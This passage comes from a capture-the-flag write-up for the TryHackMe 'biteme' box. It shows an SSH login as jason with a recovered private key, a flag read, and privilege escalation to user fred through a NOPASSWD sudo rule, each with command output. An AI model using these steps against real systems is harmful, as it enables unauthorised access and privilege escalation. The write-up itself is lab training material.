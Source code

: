**Found it! Now let's `ssh` into jason with the private key!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/biteme]
└─# ssh -i jason_id_rsa jason@$RHOSTS        
Enter passphrase for key 'jason_id_rsa': 
Last login: Fri Mar  4 18:22:12 2022 from 10.0.2.2
jason@biteme:~$ whoami;hostname;id;ip a
jason
biteme
uid=1000(jason) gid=1000(jason) groups=1000(jason),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:62:cd:c5:ec:75 brd ff:ff:ff:ff:ff:ff
    inet 10.10.136.9/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2709sec preferred_lft 2709sec
    inet6 fe80::62:cdff:fec5:ec75/64 scope link 
       valid_lft forever preferred_lft forever
```

We're `jason`!

**user.txt:**
```
jason@biteme:~$ cat /home/jason/user.txt 
THM{Redacted}
```

# Privilege Escalation

## jason to fred

**Sudo permission:**
```
jason@biteme:~$ sudo -l
Matching Defaults entries for jason on biteme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jason may run the following commands on biteme:
    (ALL : ALL) ALL
    (fred) NOPASSWD: ALL
```

In the sudo permission, **we can execute any command as root, but it requires password.**

**However, we can execute any command as user `fred` without password!** (`NOPASSWD`)

**To do so, I'll:**

- Spawn a bash shell as user `fred`:

```
jason@biteme:~$ sudo -u fred /bin/bash
fred@biteme:~$ whoami;id
fred
uid=1001(fred) gid=1001(fred) groups=1001(fred)
```
